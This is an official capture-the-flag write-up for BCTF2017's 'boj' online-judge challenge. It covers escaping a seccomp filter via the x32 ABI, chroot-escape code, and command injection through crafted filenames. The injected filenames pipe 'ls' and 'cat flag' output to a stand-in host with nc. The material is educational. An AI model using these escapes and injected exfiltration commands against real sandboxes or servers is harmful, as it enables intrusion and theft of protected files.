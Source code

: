 ```yaml
---
layout: post
title: BCTF2017 boj official writeup 
categories: [Sandbox, PWN, Writeup]
description: BCTF2017 boj official writeup by Atum
keywords: BCTF, PWN, Writeup
---
```




blue-lotus onlinejudge judge system, as you know, the code you submit will be run on remote server.
[challenge environment](https://github.com/A7um/bctf2017/tree/master/boj)

## step 1 escape seccomp

1. try to connect back to your host by
	
	```
	system("echo hello|nc yourhost yourport") 
	result: failed, remote server filtered syscall execve
	socket(yourhost:yourport)->send("hello") 
	result: wow, you get hello on yourhost:yourport
	```
	
2. use opendir->readdir->socket->send to list remote dir 

	```
	scf.so
	14xxxxxxxx
	```
	
3. dump scf.so by open->read->socket->send. by reversing scf.so, you find that scf.so applied a seccomp syscall filter by hooking \_\_libc\_start\_main. 

	```
	#define VALIDATE_ARCHITECTURE \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr), \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	#define EXAMINE_SYSCALL \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)
	
	#define BLOCK_SYSCALL(name) \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_##name, 0, 1), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	/* Validate architecture. */
	VALIDATE_ARCHITECTURE,
	/* Grab the system call number. */
	EXAMINE_SYSCALL,
	BLOCK_SYSCALL(execve),
	BLOCK_SYSCALL(fork),
	BLOCK_SYSCALL(ptrace),
	BLOCK_SYSCALL(clone),
	BLOCK_SYSCALL(chroot),
	BLOCK_SYSCALL(pivot_root),
	BLOCK_SYSCALL(process_vm_readv),
	BLOCK_SYSCALL(process_vm_writev),
	ALLOW_PROCESS,
	```
	
obviously, this filter can be evaded by x32abi.

## step 2 escape chroot

1. run some api to gather infomation such as:
	
	```
	getuid,ret 0 
	getpid,ret 3
	getcwd,ret /root/
	
	system("ls everywhere")
	cannot find flag and directory is not complete. you realize that you are in a chroot environment. 
	```
	
2. escape chroot by

	```
	mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot("."); 
	```
	
3. list dir outside, you find some interesting files

	```
	/flag
	/start.h
	/home/ctf/setup.h
	/home/ctf/oj/*
	```
	
4. try to read /flag, you get permission deny. run system("ls -al /flag"), you get
	
	```
	-r--r----- 1 nobody nogroup    46 Apr 14 03:21 flag
	```
	
5. read /start.sh and /home/ctf/setup.sh, you find some binaries of boj: 
	
	```
	/usr/lib/cgi-bin/onlinejudge.cgi
	/usr/lib/cgi-bin/statequery.cgi
	/home/ctf/oj/sandbox/sandbox
	/home/ctf/oj/sandbox/scf.so
	/home/ctf/oj/sandbox/cr
	```
	
6. dump these binaries

## step 3 escape usernamespace

1. reverse sandbox, you find you are in a user namepsace. the root you own is not a real root. uid=0 inside namespace is mapped to uid=1000 outside.
2. reverse cr, you find there is a command injection bug. 

	```
	int run(char* binname){
	....
		snprintf(runcmd,310,"%s %s",sandboxpath,binpath);
	....
		if(pid==0){
	        drop(1000,1000);
	        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
	            perror("signal");
	        }
	        alarm(2);
	        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Runing","N/A");
	        fd=open(statepath,O_WRONLY|O_CREAT);
	        write(fd,state,strlen(state));
	        close(fd);
	        chdir(sandboxdirname);
	        system(runcmd);
	....
	
	```
	
3. cr is running outside the namespace, you can inject command to get which user&group the flag really belong to

	```
		touch '/home/ctf/oj/bin/ad.c;ls -al flag|nc yourhost yourport';
		-r--r----- 1 root www-data    46 Apr 14 03:21 flag
	```
	
4. www-data is uid=33 && gid=33(read /etc/passwd). by reversing cr, you find: cr set it uid&&gid to 33 before compile. and by the way, these is a command injection error in compile function.

	```
	int compile(char *srcname){
	....
	 	snprintf(compilecmd,310,"gcc -o %s %s",binpath,srcpath);
	....
		if(pid==0)
		    {
		        drop(33,33);
		        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
		            perror("signal");
		        }
		        alarm(1);
		        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Compiling","N/A");
		        fd=open(statepath,O_WRONLY|O_CREAT);
		        write(fd,state,strlen(state));
		        close(fd);
		        system(compilecmd);//file name command injuection
	....
	```
	
5. read flag by submiting system("touch '/home/ctf/oj/src/hahaha.c;cat flag \|nc yourhost yourport;'");
	
	
6. you get flag on your own host, done :) 

## something else

Chanllenge boj is designed to be a whitebox challenge mainly, the only blackbox step is try to connect back and get scf.so. after you get scf.so, you need to do something like: list dir->dump binaries->reversing->exploit->list dir->dump binaries->reversing->exploit...

I saw some teams tried and guessed blindly during the game. as we know, such guessing and trying is boring. I feel so sorry about that, maybe some infomation in this challenge mislead you guys to do a purely blackbox attack.
